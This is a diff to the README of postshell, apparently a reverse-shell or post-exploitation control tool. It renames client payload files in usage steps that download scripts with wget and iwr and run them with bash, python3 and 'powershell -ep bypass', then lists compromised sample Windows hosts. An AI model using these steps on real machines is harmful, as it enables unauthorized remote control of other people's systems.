

Before and after one commit to BwithE/postshell, a Markdown page: README.md, the part around the change. Rendered like a GitHub page.

````diff
--- a/README.md
+++ b/README.md
@@ -117,18 +117,18 @@ payload> generate
 
 Transfer the client script
 ```
-wget http://127.0.0.1/tools/127_0_0_1_80.sh
+wget http://127.0.0.1/tools/client.sh
 
-iwr http://127.0.0.1/tools/127_0_0_1_80.ps1 -outfile 127_0_0_1_80.ps1
+iwr http://127.0.0.1/tools/client.ps1 -outfile client.ps1
 ```
 
 Execute the script on the client
 ```
-bash 127_0_0_1_80.sh
+bash client.sh
 
-python3 127_0_0_1_80.py
+python3 client.py
 
-powershell -ep bypass 127_0_0_1_80.ps1
+powershell -ep bypass client.ps1
 ```
 
 To see active clients
@@ -144,13 +144,14 @@ postshell> list
 ╚════╩═════════════════╩═════════════════╩═════════╩════════════════╩══════════════════╩════════╝
 
 postshell> list
-╔════╦═════════════╦═══════════╦════════╦══════════════════════════════╦════════════╦════════╗
-║ ID ║ IP          ║ HOSTNAME  ║ USER   ║ OS                           ║ VERSION    ║ ARCH   ║
-╠════╬═════════════╬═══════════╬════════╬══════════════════════════════╬════════════╬════════╣
-║ 1  ║ 172.16.12.5 ║ SKYWALKER ║ luke   ║ Windows 11 Pro               ║ 10.0.26100 ║ 64-bit ║
-║ 2  ║ 172.16.12.2 ║ WOOKIE    ║ chewie ║ Windows 11 Pro               ║ 10.0.26100 ║ 64-bit ║
-║ 3  ║ 172.16.12.4 ║ SOLO      ║ han    ║ Windows Server 2025 Standard ║ 10.0.26100 ║ 64-bit ║
-╚════╩═════════════╩═══════════╩════════╩══════════════════════════════╩════════════╩════════╝
+╔════╦═════════════╦══════════╦═══════════╦══════════════════════════════╦════════════╦════════╗
+║ ID ║ IP          ║ USER     ║ HOSTNAME  ║ OS                           ║ VERSION    ║ ARCH   ║
+╠════╬═════════════╬══════════╬═══════════╬══════════════════════════════╬════════════╬════════╣
+║ 1  ║ 172.16.12.3 ║ luke     ║ SKYWALKER ║ Windows 11 Pro               ║ 10.0.26100 ║ 64-bit ║
+║ 2  ║ 172.16.12.2 ║ chewie   ║ WOOKIE    ║ Windows 11 Pro               ║ 10.0.26100 ║ 64-bit ║
+║ 3  ║ 172.16.12.1 ║ han      ║ SOLO      ║ Windows Server 2025 Standard ║ 10.0.26100 ║ 64-bit ║
+╚════╩═════════════╩══════════╩═══════════╩══════════════════════════════╩════════════╩════════╝
+
 ```
 
 To connect to an active session
````
